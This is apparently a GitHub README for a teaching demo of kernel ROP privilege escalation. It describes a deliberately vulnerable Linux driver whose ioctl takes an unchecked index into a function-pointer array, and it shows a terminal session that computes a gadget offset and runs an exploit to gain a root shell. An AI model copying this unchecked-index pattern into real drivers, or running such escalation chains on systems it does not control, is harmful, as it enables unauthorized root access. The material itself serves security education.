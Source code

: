 # Linux Kernel ROP demo

This is a vulnerable Linux kernel driver used to demonstrate in-kernel
privilege escalation ROP (Return Oriented Programming) chain in practice. The
article URL for Part 1 is available at
<https://cyseclabs.com/page?n=17012016>.

[![asciicast](https://asciinema.org/a/62remtasmt80i4pk63cfu36fp.png)](https://asciinema.org/a/62remtasmt80i4pk63cfu36fp)

The driver module is vulnerable to OOB access and allows arbitrary code
execution. An arbitrary offset can be passed from user space via the provided
ioctl(). This offset is then used as the index for the 'ops' array to obtain
the function address to be executed. 
 
* drv.c - vulnerable kernel driver
* trigger.c - user-space application to trigger the OOB access via the provided
  ioctl
* find_offset.py - helper script for finding the correct offset into the "ops" array
* rop_exploit.c - ROP exploit for the "drv.c" kernel driver

The goal is to construct and execute a ROP chain that will satisfy the
following requirements:

* Execute a privilege escalation payload
* Data residing in user space may be referenced (i.e., "fetching" data from
  user space is allowed)
* Instructions residing in user space may not be executed

```
vnik@ubuntu:~$ dmesg | grep addr | grep ops
[  244.142035] addr(ops) = ffffffffa02e9340
vnik@ubuntu:~$ ~/find_offset.py ffffffffa02e9340 ~/gadgets 
offset = 18446744073644231139
gadget = xchg eax, esp ; ret 0x11e8
stack addr = 8108e258

vnik@ubuntu:~/kernel_rop/vulndrv$ gcc rop_exploit.c -O2 -o rop_exploit
vnik@ubuntu:~/kernel_rop/vulndrv$ ./rop_exploit 18446744073644231139 ffffffffa02e9340
array base address = 0xffffffffa02e9340
stack address = 0x8108e258
# id    
uid=0(root) gid=0(root) groups=0(root)
# 
```
